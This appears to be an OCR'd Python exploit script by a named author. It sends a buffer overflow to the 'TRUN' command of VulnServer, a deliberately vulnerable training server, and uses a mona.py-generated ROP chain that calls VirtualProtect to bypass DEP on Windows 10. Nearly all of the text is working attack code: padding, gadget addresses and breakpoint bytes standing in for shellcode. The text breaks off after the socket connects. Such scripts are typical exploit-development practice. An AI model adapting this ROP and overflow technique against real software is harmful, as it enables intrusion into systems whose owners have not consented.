```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @cwinfosec (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)


def main():

    rop_chain = create_rop_chain()

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += "\xCC"*(3500-2003-len(rop_chain))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
```